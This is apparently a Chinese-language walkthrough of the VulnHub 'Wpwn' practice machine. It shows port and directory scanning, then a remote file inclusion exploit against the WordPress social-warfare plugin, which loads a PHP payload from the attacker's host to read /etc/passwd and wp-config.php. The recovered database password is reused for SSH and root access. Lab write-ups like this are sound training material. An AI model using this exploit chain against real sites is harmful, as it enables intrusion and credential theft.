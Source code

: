 # Wpwn

> https://download.vulnhub.com/wpwn/wpwnvm.zip

靶场IP：`192.168.32.135`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p1-65535 -sV 192.168.2.135
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-06 09:35 EDT
Nmap scan report for 192.168.2.135
Host is up (0.00071s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 00:0C:29:DB:E7:B5 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.96 seconds

```

浏览器访问80端口

![image-20220906213634428](../../.gitbook/assets/image-20220906213634428.png)

爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.2.135/ -w /usr/share/wordlists/dirb/common.txt -t 30                                                                                                                                                  1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.135/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/06 09:37:19 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 134]
/robots.txt           (Status: 200) [Size: 57] 
/server-status        (Status: 403) [Size: 278]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.2.135/wordpress/]
                                                                                     
===============================================================
2022/09/06 09:37:24 Finished
===============================================================

```

访问：`/wordpress/`

![image-20220906214449737](../../.gitbook/assets/image-20220906214449737.png)

枚举wordpress，发现`social-warfare`插件有漏洞

```
┌──(root💀kali)-[/tmp]
└─# wpscan --url http://192.168.2.135/wordpress/
```

![image-20220906214414210](../../.gitbook/assets/image-20220906214414210.png)



```
┌──(root💀kali)-[/tmp]
└─# echo "<pre>system('cat /etc/passwd')</pre>" >  cmd.txt
```

直接执行命令

```
http://192.168.2.135/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.2.129/cmd.txt
```

![image-20220906214704204](../../.gitbook/assets/image-20220906214704204.png)

```
echo "<pre>system('cat /var/www/html/wordpress/wp-config.php')</pre>
```

```
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

![image-20220906214831159](../../.gitbook/assets/image-20220906214831159.png)

查看用户密码文件

![image-20220906214949758](../../.gitbook/assets/image-20220906214949758.png)

使用`takis/R3&]vzhHmMn9,:-5`进行ssh登录。

![image-20220906215128857](../../.gitbook/assets/image-20220906215128857.png)

直接su提权

![image-20220906215234299](../../.gitbook/assets/image-20220906215234299.png)

![image-20220906215342238](../../.gitbook/assets/image-20220906215342238.png)
